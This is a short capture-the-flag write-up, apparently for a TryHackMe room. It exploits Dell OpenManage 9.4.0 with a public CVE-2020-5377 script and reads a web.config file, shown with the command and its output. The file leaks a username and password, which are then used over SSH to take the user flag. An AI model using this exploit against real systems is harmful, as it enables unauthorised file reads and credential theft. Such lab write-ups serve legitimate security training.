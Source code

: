 ![image](https://github.com/sudo-awk/CTF/assets/106952099/69a96c60-5911-4d8e-9ed4-954f56402169)

**web**

![image](https://github.com/sudo-awk/CTF/assets/106952099/858de006-72f8-4510-acdd-cf2be73a814d)

walking through the web hosted on port 1311 we saw that it is running a vulnerable version of `dell openmanage 9.4.0`

**exploit**

![image](https://github.com/sudo-awk/CTF/assets/106952099/0afe3557-2c25-4fd4-8b39-736a8e80b678)


I have used 3 different exploits for this because the first 2 wont read `C:\inetpub\wwwroot\hacksmartersec\web.config`  when I try to read .. the one that worked was from rhinolabs


```

└─$ python3 cve-2020-5377.py 10.9.188.76 10.10.28.141:1311
Session: 9479AF66A4563BE5EEADC1028904D437
VID: 0AB5613D128BC249
file > C:\inetpub\wwwroot\hacksmartersec\web.config
Reading contents of C:\inetpub\wwwroot\hacksmartersec\web.config:
<configuration>
  <appSettings>
    <add key="Username" value="tyler" />
    <add key="Password" value="IAmA1337h4x0randIkn0wit!" />
  </appSettings>
  <location path="web.config">
    <system.webServer>
      <security>
        <authorization>
          <deny users="*" />
        </authorization>
      </security>
    </system.webServer>
  </location>
</configuration>

```

so now we are able to read the configuration file and able to access the credentials

user: tyler
pass: IAmA1337h4x0randIkn0wit!

**ssh**

So we can just access ssh or rdp, I used ssh to access the machine to get the user flag

![image](https://github.com/sudo-awk/CTF/assets/106952099/0f6dcaff-80dd-47be-a883-0234efc1692d)

**THM{4ll15n0tw3llw1thd3ll}**
